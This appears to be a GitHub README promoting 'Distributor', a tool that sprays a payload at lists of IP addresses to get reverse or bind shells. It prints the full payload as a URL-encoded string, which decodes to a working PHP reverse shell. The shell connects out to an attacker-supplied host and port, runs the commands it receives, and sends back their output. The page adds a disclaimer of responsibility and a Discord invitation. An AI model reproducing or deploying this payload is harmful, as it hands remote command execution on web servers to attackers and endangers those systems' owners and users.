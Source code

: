 ## Welcome to Distributor Home Page

Distributor is a Tool that sends Payload to multiple IP's (in a list) or single IP u input. The Payload will create a response with given commands for a Reverse- / Bind Shell.

### Note

Im not responsible for any Damage you'll do!

```markdown
The Payload Looks like this ==>
`%3c%3f%70%68%70%20%24%61%64%64%72%3d%24%5f%52%45%51%55%45%53%54%5b%27%61%64%64%72%27%5d%3b%24%70%6f%72%74%3d%24%5f%52%45%51%55%45%53%54%5b%27%70%6f%72%74%27%5d%3b%69%66%20%28%21%28%24%73%6f%63%6b%3d%66%73%6f%63%6b%6f%70%65%6e%28%24%61%64%64%72%2c%24%70%6f%72%74%29%29%29%64%69%65%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%73%6f%63%6b%29%29%20%20%7b%24%63%6d%64%20%20%3d%20%66%67%65%74%73%28%24%73%6f%63%6b%29%3b%24%70%69%70%65%20%3d%20%70%6f%70%65%6e%28%24%63%6d%64%2c%27%72%27%29%3b%77%68%69%6c%65%20%28%21%66%65%6f%66%28%24%70%69%70%65%29%29%66%77%72%69%74%65%20%28%24%73%6f%63%6b%2c%20%66%67%65%74%73%28%24%70%69%70%65%29%29%3b%70%63%6c%6f%73%65%28%24%70%69%70%65%29%3b%7d%66%63%6c%6f%73%65%28%24%73%6f%63%6b%29%3b%3f%3e`

Before u look for other Tools because Distributor hasn't enough feautures, just Remember:
1. This tool is in development. For ideas etc. join my DC https://discord.gg/QCY6CuajqK.
2. It will be one of the best Payloaders ever!
3. You can help us develope and more.

For more details dm me : ASM_Royal#9532
```

### Showcase

![unknown](https://user-images.githubusercontent.com/89786570/180613217-ce41f9ec-b2b5-440b-a181-c25701de1655.png)

https://user-images.githubusercontent.com/89786570/181810669-4e107237-658f-4d91-9ddc-8966d56235e3.mp4

![2022-07-23-17-18-58 (1)](https://user-images.githubusercontent.com/89786570/180613955-a4c75eb0-4585-4cfd-b283-750d479dcff0.gif)

![27AAB0C2-23B9-4270-B191-0E3046D8D29F](https://user-images.githubusercontent.com/89786570/180662753-0a7d1bbe-2ab9-408f-b70d-3452d31589ce.gif)

![unknown1](https://user-images.githubusercontent.com/89786570/180613221-552e9fd6-a57c-4327-acb3-fd175fbafecf.png)
